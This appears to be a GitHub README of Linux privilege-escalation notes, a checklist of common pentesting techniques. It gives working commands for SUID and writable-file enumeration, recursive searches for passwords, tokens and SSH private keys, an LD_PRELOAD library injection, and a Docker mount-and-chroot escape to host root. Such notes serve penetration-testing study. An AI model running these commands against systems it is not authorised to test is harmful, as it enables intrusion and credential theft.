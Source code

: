 ## Linux Priviledge Escalation
- OS Version

- Kernel Exploits
   - **Check Kernel**: `uname -r`
   - **Exploit**: Search for exploits by kernel version on Exploit-DB.
     
- Running Services
  - `ps -eo user,pid,comm | grep '^root'`
- SUID Binaries
   - **Find SUID Files**: `find / -perm -4000 2>/dev/null`
   - **Exploits**: Use GTFOBins for known SUID binary exploits.

- sudo -l (Check Sudo Privileges)
   - **List Privileges**: `sudo -l`
   - Running a vuln executable as particular user, `sudo -u targetuser /bin/vulnfile`
   - **Exploits**: Look for `NOPASSWD` or exploitable commands (e.g., `vim`, `find`).

- Cron Jobs
   - **View Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron.d/`
   - **Exploits**: Writable cron scripts or wildcard abuse.

- Writable /etc/passwd
   - **Exploit**: Add new root user using password hash from `openssl passwd -1`.

- SSH Keys
   - **Find Keys**: `find / -name "*.pem" 2>/dev/null`
   - **Exploit**: Use private key for SSH if no passphrase.

- PATH Variable Manipulation
   - **Exploit**: Modify `PATH` and place malicious script in writable directory.

- NFS Root Squashing
   - **Check**: Look for `no_root_squash` in `/etc/exports`
   - **Exploit**: Mount and access with root on NFS share.

- World-Writable Files
   - **Find**: `find / -writable -type d 2>/dev/null`
   - **Exploit**: Overwrite world-writable scripts or binaries.

- LD_PRELOAD and LD_LIBRARY_PATH
   - **Exploit**: Inject code with custom library.
     ```bash
     gcc -fPIC -shared -o shell.so shell.c -nostartfiles
     LD_PRELOAD=./shell.so <vulnerable_program>
     ```
- Docker Privilege Escalation
   - **Exploit**: Mount root filesystem and escape container:
     ```bash
     docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```
- Password and Credential Files
   - **Find Sensitive Files**:
     ```bash
     find / -type f -exec grep -iH 'password' {} \; 2>/dev/null
     find / -type f -exec grep -Ei 'password|passwd|pwd|secret|token|key' {} \; 2>/dev/null
     find / -type f -exec grep -iE 'pass(word)?\s*=\s*["'\'']?.+["'\'']?' {} \; 2>/dev/null
     find / -name "*.bak" 2>/dev/null
     find / -name "*.old" 2>/dev/null
     ```
- Check Hidden Files
- Check Hidden Direstories
  - **ssh files**
    ```bash
    find / -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" -o -name "known_hosts" 2>/dev/null
    find / -name "*.pem" -o -name "*.key" 2>/dev/null
    ```

     
## Common Checks
```bash
whoami #username
hostname #hostname
cat /etc/os-release #os details
uname -a #kernel details
lscpu #cpu details
route #ip and interface details
cat /etc/passwd | cut -f1 -d: # users details

```
